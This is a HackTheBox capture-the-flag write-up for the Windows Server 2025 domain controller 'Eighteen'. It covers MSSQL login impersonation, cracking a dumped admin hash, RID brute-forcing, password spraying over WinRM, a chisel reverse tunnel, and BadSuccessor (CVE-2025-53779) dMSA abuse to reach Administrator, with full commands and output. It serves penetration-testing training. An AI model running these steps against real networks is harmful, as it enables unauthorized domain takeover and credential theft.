




<div align="center">



</div>

## 📌 Overview

Eighteen is a medium-difficulty Windows Active Directory machine on HackTheBox. The box is a Domain Controller running Windows Server 2025, and the entire attack chain starts from a pair of MSSQL credentials. What makes this machine interesting is how many layers sit between those first credentials and domain admin — user impersonation inside SQL Server, cracking a Django password hash, password spraying domain users, and finally exploiting BadSuccessor, a brand new Active Directory vulnerability that only affects Windows Server 2025.

This machine teaches you that a low-privilege SQL login is never a dead end. You enumerate, you impersonate, you pivot. Each step opens the next door. It also teaches you that new vulnerabilities matter — BadSuccessor was disclosed in 2025 and this box was built around it. Staying current with CVEs is not optional when you are doing real penetration testing.

The other thing this box teaches — and this is important — is patience with infrastructure problems. Kerberos tunneling, clock skew errors, DNS resolution, ticket format issues — none of these are the vulnerability, but all of them can stop you cold if you do not understand what is happening and why. This writeup documents all of that, including the dead ends and how they were solved.

---

## 🛠 Tools Used

```
nmap                    → port and service discovery
impacket-mssqlclient    → SQL Server interaction
hashcat                 → password hash cracking
netexec                 → RID bruting and password spraying
evil-winrm              → remote PowerShell shell
chisel                  → TCP tunneling for Kerberos port forwarding
impacket-getST          → Kerberos service ticket request
Invoke-BadSuccessor.ps1 → dMSA privilege escalation exploit
```

---

## 🎯 Target Information

| Field        | Value                                          |
| ------------ | ---------------------------------------------- |
| Target IP    | 10.129.26.32                                   |
| Domain       | eighteen.htb                                   |
| DC Name      | DC01                                           |
| OS           | Windows Server 2025 Build 26100                |
| Key Services | MSSQL (1433), HTTP (80), WinRM (5985)          |
| Goal         | Read root.txt from Administrator Desktop       |

---

## 🧭 Walkthrough

### Step 1 — Service Discovery (Nmap)

**Goal:** Identify all open ports and services before touching anything else.

```bash
nmap -p- --min-rate 5000 10.129.26.32
```

The `--min-rate 5000` flag pushes nmap to send at least 5000 packets per second. On a CTF box this is fine — you are not worried about triggering IDS, and waiting 20 minutes for a slow scan is a waste of time. The `-p-` flag scans all 65535 ports, not just the common top 1000. Services on non-standard ports get missed constantly by people who skip this step.

Once the fast scan returns open ports, run a detailed service scan:

```bash
sudo nmap -T4 -sV -A -Pn 10.129.26.32
```

`-sV` probes each port to identify the service and version. `-A` enables OS detection, script scanning, and traceroute. `-Pn` skips host discovery and assumes the host is up — useful when ICMP is blocked.

**Key findings:**

| Port     | Service | Detail                              |
| -------- | ------- | ----------------------------------- |
| 1433/tcp | MSSQL   | Microsoft SQL Server 2022 RTM       |
| 80/tcp   | HTTP    | Python web application (Werkzeug)   |
| 5985/tcp | WinRM   | Windows Remote Management           |

Port 5985 (WinRM) immediately signals that valid Windows credentials mean a remote shell. WinRM is PowerShell remoting — evil-winrm connects to it from Linux.

Port 1433 is MSSQL. SQL Server always means custom databases, possible service account abuse, and application credentials. It is always worth investigating.

Port 80 is a Python web app. Werkzeug is a Python WSGI framework used with Flask — this becomes relevant when we find a password hash later.



Add the domain to `/etc/hosts` so DNS resolves correctly throughout the attack:

```bash
echo "10.129.26.32 eighteen.htb dc01.eighteen.htb" | sudo tee -a /etc/hosts
```

Skipping this causes confusing Kerberos and hostname failures later.

---

### Step 2 — MSSQL Enumeration

**Goal:** Understand what access the given SQL credentials actually have and find every path upward.

Connect using impacket's mssqlclient:

```bash
impacket-mssqlclient Kevin:'iNa2we6haRj2gaw!'@10.129.26.32
```

The prompt that appears tells us everything immediately:

```
SQL (kevin  guest@master)>
```

`kevin` is the identity. `guest` is the role — the lowest privilege level in SQL Server. `master` is the system database context. Guest accounts have almost no permissions. The questions to answer now are: who can we become, and what can we access.

**Check current identity and admin status:**

```sql
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
```

Returns `kevin` and `0`. Zero means no sysadmin — the `xp_cmdshell` OS command path is closed for now.

**List all databases:**

```sql
SELECT name FROM master.dbo.sysdatabases;
```

SQL Server always has four default system databases: master, tempdb, model, msdb. Any database beyond those was created for a specific application. The output shows a fifth: `financial_planner`. Non-default databases always mean interesting data.

c

**List all server logins:**

```sql
SELECT name, type_desc, is_disabled FROM master.sys.server_principals;
```

`sys.server_principals` shows every security principal on the instance. Two actual SQL logins appear beyond the built-in roles: `kevin` and `appdev`. Service accounts like `appdev` often have elevated permissions from application setup that were never reduced.


**Check impersonation rights:**

```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```

In SQL Server, `EXECUTE AS LOGIN` lets you temporarily become another login and inherit all their permissions — like `sudo` but for SQL identities. This query asks who can be impersonated. The result: `appdev`.

Kevin has been granted the ability to impersonate appdev. If appdev has access to `financial_planner`, we gain it without needing appdev's password.


> **Critical note:** impacket-mssqlclient sends each line to the server separately. Multi-line queries fail because each line is executed alone. Always write queries as a single continuous line.

---

### Step 3 — User Impersonation

**Goal:** Become appdev and access the restricted database.

```sql
EXECUTE AS LOGIN = 'appdev';
```

The prompt changes from `kevin guest@master` to `appdev appdev@master`. SQL Server now treats every command as if appdev typed it. Kevin's identity is completely replaced.

Check sysadmin again:

```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
```

Still 0. But that is not why we impersonated — the real test is the database:

```sql
USE financial_planner;
```

It works. Kevin got access denied on this exact command. Appdev enters it without error. Impersonation let us step into a more privileged identity without knowing its password.


---

### Step 4 — Database Dump

**Goal:** Extract credentials from the application database.

**List tables:**

```sql
SELECT table_name FROM information_schema.tables;
```

Six tables: `users`, `incomes`, `expenses`, `allocations`, `analytics`, `visits`. This is a personal finance web application. The `visits` table confirms active usage — the port 80 web app is this application's frontend. The `users` table is the target.

**Check table structure before dumping:**

```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'users';
```

Good habit — understand what columns exist before running `SELECT *`. The columns include `password_hash` and `is_admin`. Exactly what we need.

**Dump the users table:**

```sql
SELECT * FROM users;
```

One row:

```
id:            1002
username:      admin
email:         admin@eighteen.htb
password_hash: pbkdf2:sha256:600000$AMtzteQIG7yAbZIa$0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133
is_admin:      1
```


The hash format breaks down as:
- `pbkdf2:sha256` — algorithm: PBKDF2 with SHA-256
- `600000` — iteration count: the hash runs 600,000 times per attempt
- `AMtzteQIG7yAbZIa` — the salt
- `0673ad90...` — the hash in hexadecimal

600,000 iterations is deliberately slow — designed to make cracking expensive. On a CPU this gives around 30 hashes per second.

---

### Step 5 — Hash Cracking

**Goal:** Crack the PBKDF2 hash to recover the admin password.

The hash looks like Werkzeug format but is actually stored by a Django application. The two formats look similar but hashcat treats them as different modes:

| Framework | Format | Hashcat Mode |
|-----------|--------|--------------|
| Werkzeug  | `pbkdf2:sha256:iters$salt$hexhash` | 10900 |
| Django    | `pbkdf2_sha256$iters$salt$base64hash` | 10000 |

Our hash needs converting to Django format for hashcat mode 10000. The hash portion must also be converted from hex to base64.

**Convert hex to base64:**

```bash
echo '0673ad90a0b4afb19d662336f0fce3a9edd0b7b19193717be28ce4d66c887133' | xxd -r -p | base64
```

`xxd -r -p` converts hex back to raw binary. `base64` encodes it. Getting this wrong causes hashcat to reject the hash entirely with a confusing separator error.


**Build the correctly formatted hash file:**

```bash
echo -n 'pbkdf2_sha256$600000$AMtzteQIG7yAbZIa$BnOtkKC0r7GdZiM28Pzjqe3Qt7GRk3F74ozk1myIcTM=' > adminhash.txt
```

**Run hashcat:**

```bash
hashcat -m 10000 adminhash.txt /usr/share/wordlists/rockyou.txt
```

**Cracked: `iloveyou1`**


---

### Step 6 — Domain User Enumeration via RID Bruting

**Goal:** Enumerate all domain accounts using MSSQL as the channel.

Every Windows security principal has a Security Identifier (SID). The last number in a SID is the RID — Relative Identifier. Standard accounts always have fixed RIDs (Administrator = 500, Guest = 501, krbtgt = 502). Everything created after domain setup gets sequential RIDs starting from 1000+.

RID bruting iterates through these numbers and asks the DC what account maps to each one. The clever part here: we do this over MSSQL instead of SMB or LDAP, which may be restricted:

```bash
netexec mssql eighteen.htb -u 'kevin' -p 'iNa2we6haRj2gaw!' --local-auth --rid-brute
```

Two critical findings from the output:

First — this is a real Domain Controller running Windows Server 2025 Build 26100. The OS version matters and will matter a lot in Step 9.

Second — seven real domain users:

```
1606: EIGHTEEN\jamie.dunn
1607: EIGHTEEN\jane.smith
1608: EIGHTEEN\alice.jones
1609: EIGHTEEN\adam.scott
1610: EIGHTEEN\bob.brown
1611: EIGHTEEN\carol.white
1612: EIGHTEEN\dave.green
```

Also visible: three custom groups `HR`, `IT`, and `Finance`. Group names in AD hint at what permissions those groups hold. Save just the user accounts for spraying:

```bash
netexec mssql eighteen.htb -u 'kevin' -p 'iNa2we6haRj2gaw!' --local-auth --rid-brute | grep -oP 'EIGHTEEN\\\K\w+\.\w+' > users.txt
```


---

### Step 7 — Password Spray via WinRM

**Goal:** Find which domain user reuses the cracked password.

Password spraying tries one password against many accounts instead of many passwords against one account. This avoids lockout while exploiting the reality that people reuse passwords constantly.

WinRM is the cleanest protocol to spray — a `Pwn3d!` result means the account both authenticates and has remote shell access:

```bash
netexec winrm 10.129.26.32 -u users.txt -p 'iloveyou1'
```



`adam.scott` returns `Pwn3d!`.


---

### Step 8 — WinRM Shell and User Flag

**Goal:** Get a shell as adam.scott and capture the user flag.

```bash
evil-winrm -i 10.129.26.32 -u adam.scott -p 'iloveyou1'
```

Navigate to the desktop and download the flag:

```powershell
cd Desktop
download user.txt
```

**User flag captured.**


Check adam.scott's domain position — this drives the privilege escalation decision:

```powershell
net user adam.scott /domain
```

Global group memberships: `IT` and `Domain Users`. Adam is in the IT group. The machine hint asks what permission IT has over the Staff OU — this points directly at an Active Directory ACL attack.


---

### Step 9 — Privilege Escalation via BadSuccessor (CVE-2025-53779)

**Goal:** Abuse the IT group's CreateChild rights on the Staff OU to achieve full domain compromise.

#### Understanding the Vulnerability

BadSuccessor is a privilege escalation vulnerability disclosed in 2025 that only affects Windows Server 2025 Active Directory. It abuses Delegated Managed Service Accounts (dMSA) — a new feature introduced in Server 2025.

**What is dMSA?**

Managed Service Accounts solve a real problem: service accounts need passwords that rotate automatically without human involvement. dMSA is an evolution of this concept. The "delegated" part means a dMSA can be configured as the successor of another account — designed so organizations can decommission old service accounts and replace them with dMSAs that inherit the same permissions seamlessly.

The mechanism is an AD attribute called `msDS-ManagedAccountPrecededByLink`. Set this on a dMSA to point at another account, and Kerberos includes the predecessor's privileges when issuing tickets for the dMSA.

**Where the vulnerability is**

There is no restriction on which account you can designate as the predecessor. You can point a dMSA at Administrator. And you only need `CreateChild` rights on the OU where you create the dMSA — a permission previously considered low-risk.

Before this vulnerability: CreateChild on an OU = low severity, you can create objects but impact is limited.
After this vulnerability: CreateChild on any OU that permits dMSA creation = full domain compromise in minutes.

**The attack chain:**

1. IT group has `CreateChild` on the Staff OU
2. Adam is in IT — we can create objects in Staff OU
3. Create a machine account (`Pwn$`) with a known password
4. Create a dMSA (`attacker_dMSA$`) in the Staff OU
5. Set the dMSA's predecessor to Administrator
6. Request a Kerberos ticket for the dMSA
7. The ticket carries Administrator's privileges
8. Use the ticket to authenticate as Administrator

#### Running the Exploit

Download the PowerShell implementation:

```
https://github.com/b5null/Invoke-BadSuccessor.ps1
```

Upload via evil-winrm:

```powershell
upload Invoke-BadSuccessor.ps1
```

Import the script — dot-sourcing must be its own command:

```powershell
. .\Invoke-BadSuccessor.ps1
```

Verify IT has CreateChild on Staff OU:

```powershell
Find-VulnerableOU
```


Run the full attack chain:

```powershell
Invoke-BadSuccessor -PrecededByIdentity "Administrator"
```

Output:

```
[+] Created computer 'Pwn' in 'OU=Staff,DC=eighteen,DC=htb'.
[+] Machine Account's sAMAccountName : Pwn$
[+] Created delegated service account 'attacker_dMSA' in 'OU=Staff,DC=eighteen,DC=htb'.
[+] Service Account's sAMAccountName : attacker_dMSA$
[+] Granted 'GenericAll' on 'attacker_dMSA$' to 'adam.scott'.
[+] Configured delegated MSA state for 'attacker_dMSA$' with predecessor:
    CN=Administrator,CN=Users,DC=eighteen,DC=htb
```



What happened:
- **`Pwn$`** — machine account created with password `Password123!`. Needed to initiate the Kerberos ticket request since the dMSA's password is AD-managed and not directly accessible.
- **`attacker_dMSA$`** — the dMSA with `msDS-ManagedAccountPrecededByLink` pointing to Administrator and `msDS-DelegatedMSAState` set to 2 (active).
- **`GenericAll` for adam.scott** — full control over the dMSA object, needed for the ticket request.

#### Setting Up the Kerberos Tunnel

Port 88 (Kerberos) is filtered from outside the HTB VPN. We tunnel it through our existing WinRM connection using Chisel.

Download Chisel from:

```
https://github.com/jpillora/chisel/releases
```

Start the server on the attack machine:

```bash
./chisel server -p 8080 --reverse
```

Upload the Windows binary and connect from the target:

```powershell
upload chisel.exe
.\chisel.exe client <your_vpn_ip>:8080 R:88:127.0.0.1:88
```

`R:88:127.0.0.1:88` — traffic arriving at port 88 on the attack machine gets forwarded to port 88 on the DC's own localhost — which is the DC's Kerberos service.

Verify the tunnel:

```bash
ss -tlnp | grep 88
```

Output confirms chisel listening on port 88.


#### Solving the Clock Skew Problem

Kerberos requires the client's clock to be within 5 minutes of the DC's clock. If not, it rejects authentication with `KRB_AP_ERR_SKEW`. This is a replay-attack prevention mechanism.

On a CTF box, VirtualBox or other virtualization software can override your system time and cause drift. Here is the full solution:

**Step 1 — Stop VirtualBox from overriding your time:**

```bash
sudo systemctl stop virtualbox-guest-utils
sudo systemctl disable virtualbox-guest-utils
```

**Step 2 — Set timezone to UTC to match the DC:**

```bash
sudo timedatectl set-timezone UTC
```

**Step 3 — Get the DC's current time.**

Port 445 (SMB) was not open on this box, so the standard SMB time-sync method did not work. Instead, nmap's SSL certificate scan was used — the TLS handshake embeds the server's timestamp:

```bash
nmap -p 443 --script ssl-date 10.129.26.32
```

The output includes a line like:

```
_ssl-date: 2026-04-12T20:48:20+00:00;
```

That timestamp is the DC's current time in UTC.

**Step 4 — Set your machine's time to match:**

```bash
sudo date -s "2026-04-12T20:48:20"
```

**Step 5 — Clear any existing Kerberos cache:**

```bash
unset KRB5CCNAME
```

Your clock is now synchronized with the DC and Kerberos authentication will proceed.

#### Requesting the Kerberos Ticket

```bash
impacket-getST 'eighteen.htb/Pwn$:Password123!' -no-pass -dmsa -self -impersonate 'attacker_dMSA$' -dc-ip 127.0.0.1
```

Breaking down the flags:
- `eighteen.htb/Pwn$:Password123!` — authenticate as the machine account we created
- `-no-pass` — password is already in the identity string
- `-dmsa` — use the dMSA ticket-requesting mechanism
- `-self` — request a ticket for the account itself
- `-impersonate 'attacker_dMSA$'` — the dMSA to get the ticket for
- `-dc-ip 127.0.0.1` — DC is reachable via localhost through the chisel tunnel

Output confirms success:

```
[*] Getting TGT for user
[*] Impersonating attacker_dMSA$
[*] Requesting S4U2self
[*] Saving ticket in attacker_dMSA$@krbtgt_EIGHTEEN.HTB@EIGHTEEN.HTB.ccache
```


S4U2self (Service for User to Self) is the Kerberos extension that allows a service to request a ticket reflecting its relationship to a predecessor account. The `.ccache` file is the Linux standard format for storing Kerberos credentials.

#### Configuring Kerberos and Getting the Shell

Export the ticket:

```bash
export KRB5CCNAME='attacker_dMSA$@krbtgt_EIGHTEEN.HTB@EIGHTEEN.HTB.ccache'
```

`KRB5CCNAME` tells the Kerberos library where to find credentials. Every Kerberos-aware tool checks this variable.

Configure `/etc/krb5.conf` so tools know where the KDC is:

```bash
sudo nano /etc/krb5.conf
```

```
[libdefaults]
    default_realm = EIGHTEEN.HTB

[realms]
    EIGHTEEN.HTB = {
        kdc = 127.0.0.1
        admin_server = 127.0.0.1
    }

[domain_realm]
    .eighteen.htb = EIGHTEEN.HTB
    eighteen.htb = EIGHTEEN.HTB
```

This points the Kerberos library at `127.0.0.1` — which through the chisel tunnel reaches the actual DC.

Connect with evil-winrm using Kerberos authentication:

```bash
evil-winrm -i dc01.eighteen.htb -r EIGHTEEN.HTB
```

The `-r` flag specifies the realm. Evil-winrm picks up the ticket from `KRB5CCNAME` automatically — no password needed. The ticket IS the authentication.

Shell opens as `eighteen\attacker_dmsa$` — carrying Administrator's privileges through the BadSuccessor predecessor link.

#### Root Flag

```powershell
cd C:\Users\Administrator\Desktop
ls
download root.txt
```


**Root flag captured. Machine fully compromised.**

---

## ✅ Proof of Compromise

| Flag     | Location                                    |
| -------- | ------------------------------------------- |
| user.txt | `C:\Users\adam.scott\Desktop\user.txt`      |
| root.txt | `C:\Users\Administrator\Desktop\root.txt`   |

Shell obtained as `attacker_dMSA$` carrying Administrator privileges via BadSuccessor dMSA predecessor abuse.

---

## 🚀 Attack Chain Summary

```
nmap → MSSQL 1433, HTTP 80, WinRM 5985, DC01 identified
  ↓
impacket-mssqlclient → kevin is guest, not sysadmin
  ↓
SELECT sysdatabases → financial_planner found
  ↓
SELECT server_permissions → kevin can impersonate appdev
  ↓
EXECUTE AS LOGIN = 'appdev' → identity switches, prompt changes
  ↓
USE financial_planner → access granted (kevin was denied)
  ↓
SELECT * FROM users → admin hash found
  ↓
xxd + base64 conversion → hash reformatted for hashcat
  ↓
hashcat -m 10000 → iloveyou1 cracked
  ↓
netexec --rid-brute over MSSQL → DC01 confirmed, 7 domain users found
  ↓
netexec winrm spray iloveyou1 → adam.scott Pwn3d!
  ↓
evil-winrm adam.scott → shell, user flag captured
  ↓
net user /domain → adam.scott in IT group
  ↓
Invoke-BadSuccessor → Pwn$ and attacker_dMSA$ created, linked to Administrator
  ↓
chisel reverse tunnel → port 88 forwarded through WinRM connection
  ↓
VirtualBox time sync stopped → timezone set to UTC → DC time from ssl-date → sudo date
  ↓
impacket-getST -dmsa → ticket saved as .ccache
  ↓
KRB5CCNAME exported + krb5.conf configured
  ↓
evil-winrm -r EIGHTEEN.HTB → shell as attacker_dMSA$ with Administrator privileges
  ↓
C:\Users\Administrator\Desktop\root.txt → machine fully compromised
```

---

## 🧠 What This Lab Teaches

* **MSSQL impersonation is a real attack path** — guest-level SQL access is never a dead end. Always check `EXECUTE AS LOGIN` permissions before giving up on a low-privilege SQL foothold.

* **Django and Werkzeug PBKDF2 hashes look identical but need different hashcat modes** — Werkzeug is mode 10900, Django is mode 10000. The hash must also be base64 not hex. Getting any detail wrong means hashcat loads nothing.

* **RID bruting works over MSSQL when SMB and LDAP are restricted** — netexec's `--rid-brute` flag works through authenticated SQL connections and returns the full domain user list. Always try this when SMB is locked down.

* **BadSuccessor (CVE-2025-53779) turns CreateChild into domain compromise on Server 2025** — a permission previously considered low-risk now equals full domain compromise. Check for this on every Windows Server 2025 DC.

* **Kerberos tunneling requires DNS, time, and network path all correct simultaneously** — fix them in order: `/etc/hosts` for DNS, chisel for network path, system clock for time sync. When one fails the error message does not tell you which.

* **VirtualBox overrides your system clock** — disable `virtualbox-guest-utils` before attempting clock sync on a CTF box running inside VirtualBox. Otherwise your time corrections get overwritten immediately.

* **The `$` in account names gets eaten by bash** — always use single quotes around arguments containing dollar signs. Double quotes allow variable expansion and will silently corrupt the account name.

* **`/etc/krb5.conf` must be configured for evil-winrm Kerberos auth** — the tool needs to know the KDC address and realm mapping. Without this file, Kerberos authentication fails even with a valid ticket in KRB5CCNAME.

---

This work is part of **FuzzRaiders**' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀


<div align="center">


</div>